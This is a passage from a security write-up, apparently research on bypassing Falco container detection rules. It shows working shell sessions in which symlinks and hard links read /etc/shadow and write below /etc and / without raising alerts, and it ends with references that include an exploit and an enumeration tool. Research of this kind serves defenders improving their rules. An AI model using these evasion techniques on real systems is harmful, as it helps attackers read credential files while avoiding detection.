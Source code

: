 But can we do better by eliminating the notice completely? The following will do the trick: creating the symlink to a non-sensitive subdirectory and then using a relative path:
```
[Container]
$ docker run --rm -it debian:10.2 bash
root@caddb1e39e70:/# ln -s /etc/security etcsecurity-link
root@caddb1e39e70:/# cat etcsecurity-link/../shadow
root:*:18291:0:99999:7:::
...
-----
[Falco]
SILENCE
```
The success of this bypass is conditioned on the ability to create a symlink to the non-monitored subdirectory within the sensitive directory. The described symlink bypass techniques can be lego pieces in bypassing other rules.

Similarly, we can bypass **Write below etc**, **Write below root** and other write detection rules that rely on directory path comparison:
```
[Container]
$ docker run --rm -it debian:10.2 bash
root@8a7dc959e480:/# echo "##" >> /etc/profile
root@8a7dc959e480:/# echo "##" >> /profile
-----
[Falco]
01:46:54.511510877: Error File below /etc opened for writing (user=root user_loginuid=-1 command=bash parent=<NA> pcmdline=<NA> file=/etc/profile program=bash gparent=<NA> ggparent=<NA> gggparent=<NA> container_id=8a7dc959e480 image=debian) k8s.ns=<NA> k8s.pod=<NA> container=8a7dc959e480 k8s.ns=<NA> k8s.pod=<NA> container=8a7dc959e480
01:47:02.638754876: Error File below / or /root opened for writing (user=root user_loginuid=-1 command=bash parent=<NA> file=/profile program=bash container_id=8a7dc959e480 image=debian) k8s.ns=<NA> k8s.pod=<NA> container=8a7dc959e480 k8s.ns=<NA> k8s.pod=<NA> container=8a7dc959e480
-----
[Container]
root@8a7dc959e480:/# ln -s / root-link
root@8a7dc959e480:/# echo "##" >> root-link/etc/profile
root@8a7dc959e480:/# echo "##" >> root-link/profile
-----
[Falco]
SILENCE
```

Another way to bypass symlink creation is by using a hard link (credit for this bypass goes to Stephen Clarke). Hard links are the often-overlooked sibling of the soft links; opposite to the soft links, they share the same inode with the target file along with the original permissions. The syscall used when creating a hard links is different from the syscall used when creating soft links, therefore, **Create Symlink Over Sensitive Files** remains silent:

```
[Container]
$ docker run --rm -it debian:10.2 bash
root@7777d3b8ddea:/tmp# ln /etc/shadow sh-link
root@7777d3b8ddea:/tmp# cat sh-link
root:*:18291:0:99999:7:::
...
-----
[Falco]
SILENCE
```


[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS